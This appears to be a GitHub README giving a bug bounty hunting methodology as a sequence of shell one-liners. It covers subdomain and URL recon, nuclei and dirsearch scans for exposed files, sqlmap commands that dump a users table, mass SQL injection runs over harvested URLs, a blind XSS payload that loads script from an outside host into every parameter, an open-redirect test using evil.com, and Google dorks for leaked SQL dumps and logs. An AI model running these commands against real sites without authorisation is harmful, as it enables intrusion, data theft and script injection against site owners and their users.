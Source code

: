 <h1>My Bug Bounty Hunting Methodology</h1>

<h1>Recon</h1>


```bash
subfinder -d target.com -all  -recursive > subdomain.txt
```

```bash

cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

```bash

katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
```

```bash

cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

```bash

cat allurls.txt | grep -E "\.js$" >> js.txt
```

```bash

cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/
```

```bash

echo target.com | katana -ps | grep -E "\.js$" | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30
```

```bash

dirsearch  -u https://www.target.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
```

```bash

subfinder -d target.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
```

```bash
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```

```bash

python3 corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```


```bash

nuclei  -list subdomains_alive.txt -tags cves,osint,tech
```

```bash

cat allurls.txt | gf lfi | nuclei -tags lfi
```

```bash
cat allurls.txt | gf redirect | openredirex -p /home/vulncrax/openRedirect
```
<h1>Sqli</h1>

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dbs  (Databases)
```

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --tables -D acuart (Dump DB tables )
```

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --columns -T users (Dump Table Columns )
```

```bash
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dump -D acuart -T users
```


<h1>SQLi One Linear :</h1>

```bash
cat target.txt | waybackurls | grep "\?" | uro | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
```

```bash
subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
```


<h1>Testing for xss and sqli at the same time :</h1>

```bash
cat subdomains.txt | waybackurls | uro | grep "\?" | httpx -silent > param.txt
```

```bash
sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt

```

```bash
cat param.txt | kxss
```

<h1>Running Nuclei :-</h1>

```bash
nuclei -u https://example.com
```

```bash
nuclei -list urls.txt -t /fuzzing-templates
```

```bash
nuclei -list live-subs.txt -t /root/nuclei-templates/vulnerabilities -t /root/nuclei-templates/cves -t /root/nuclei-templates/exposures -t /root/nuclei-templates/sqli.yaml
```

```bash
nuclei -u https://example.com -w workflows/
```

<h1>Open Redirect:-</h1>

```bash
waybackurls target.com | grep -a -i \=http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep "evil.com" && echo "$host \033[0;31mVulnerable\n" ;done
```

```bash
httpx -l i.txt -path "///evil.com" -status-code -mc 302
```

<h1>Google dorking</h1>

```bash
ext:log site:.et
```

```bash
inurl:"?url=http" site:.et
```

```bash
site:id filetype:sql
```

